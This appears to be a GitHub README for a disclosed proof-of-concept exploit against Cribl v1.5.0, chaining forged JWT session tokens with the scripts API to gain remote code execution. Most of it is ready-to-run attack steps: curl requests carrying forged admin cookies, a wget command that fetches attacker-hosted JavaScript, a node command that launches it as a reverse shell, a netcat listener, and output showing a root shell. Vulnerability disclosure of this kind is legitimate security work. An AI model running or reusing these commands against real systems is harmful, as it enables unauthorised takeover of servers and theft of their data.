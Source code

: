 #Disclaimer
This is for informational/educational purposes only.  
This was put together to demonstrate an insecurity in the tool, in order for a fix to be verified by the vendor.
#Info
Tested on Cribl v1.5.0 - Previous versions not tested but likely vulnerable.  
A valid JWT token can be transfered from and injected into the session of another Cribl instance, giving the user unauthorised access.  
Furtermore, the encryption key used on to generate the JWT/Session can be used to create a valid session for any username, with an extended expiry.  
  
This, combined with the ability to run scripts within Cribl allows a  remote attacker to run malicious code on a Crible instance in order to gain further control.  
An example of such can be seen below, using the scripts  page and a long expiry JWT token, it was possible to create a reverse shell.  
  
Tested using Docker (Alpine).


#Running
First, modify (the remote host name) and upload your shell.js to your webserver. The file contains NodeJS code to create a reverse shell to your website.  
The server must have outbound network access to your remote host/port.  
  
Secondly, setup a listener on your remote host, on the port matching the shell.js:
```
nc -lvp 6669
``` 

Adjust the following curl commands with your remote file.  
Run the CURL commands in order, the outputs should roughly match the indents below.

```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts' \
-H 'Content-Type: application/json' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{"id":"runme","command":"/usr/bin/wget","args":["http://yourURL/cribl.js","-P","/opt"],"env":{}}' --compressed
```

> "count":1,"items":[{"command":"/usr/bin/wget","args":["http://yourURL/cribl.js","-P","/opt"],"env":{},"id":"runme"}]}

```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts/runme/run' \
-H 'Content-Type: application/json' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjoxNTU0OTUyMTU5fQ.W4YDcUJhshv2R25UcumlP4H-2vaCIiJL0hME4eZFIW0' \
--data-binary '{}' --compressed
```
> {"pid":414,"stdout":"N/A","stderr":"N/A"}


```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts' \
 -H 'Content-Type: application/json'\
 -H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{"id":"reverseit","command":"node","args":["/opt/cribl.js"],"env":{}}' --compressed
```
> "count":1,"items":[{"command":"node","args":["/opt/cribl.js"],"env":{},"id":"reverseit"}]}


```
curl 'http://CRIBL_URL:9000/api/v1/system/scripts/reverseit2/run' \
-H 'Cookie: cribl_auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiZXhwIjo5OTk5OTk5OTk5fQ.lnXNKawtPIvfUR8D6RzrU5U1-_AHuPP1StShu4XiIFY' \
--data-binary '{}' --compressed
```
> {"pid":353,"stdout":"N/A","stderr":"N/A"}

#Output
nc -lvp 6669
Listening on [0.0.0.0] (family 0, port 6669)
Connection from [188.29.XXX.XXX] port 6669 [tcp/*] accepted (family 2, sport 13720)
\> whoami  
\< root  
  
\> ls /  
\< bin  
\< dev  
\< etc  
\< home  
\< lib  
...
